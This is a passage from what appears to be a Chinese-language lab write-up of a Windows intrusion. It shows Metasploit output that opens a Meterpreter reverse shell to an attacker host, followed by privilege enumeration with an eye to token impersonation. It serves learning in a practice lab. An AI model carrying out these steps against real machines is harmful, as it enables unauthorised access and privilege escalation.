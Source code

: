 ```
[*] Local IP: http://10.10.16.2:8080/HH9f1Yros44lsM
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /HH9f1Yros44lsM
[*] Sending stage (175174 bytes) to 10.0.20.230
[!] Tried to delete %TEMP%\tDQmyDdrpKN.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.16.2:4444 -> 10.0.20.230:49775) at 2022-10-01 07:59:16 +0530
[*] Server stopped.

meterpreter > 

```

账户`NT AUTHORITY\LOCAL SERVICE`是非特权账户，但是有`SeImpersonatePrivilege`权限，可以模仿其他用户的访问令牌。

```
meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Meterpreter     : x86/windows
meterpreter > pgrep explorer
3508
meterpreter > migrate 3508
[*] Migrating from 580 to 3508...
[-] core_migrate: Operation failed: Access is denied.
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeSystemtimePrivilege
SeTimeZonePrivilege
meterpreter > load incognito
Loading extension incognito...
[*] 10.0.20.230 - Meterpreter session 1 closed.  Reason: Died

[-] Failed to load extension: No response was received to the core_loadlib request.
```
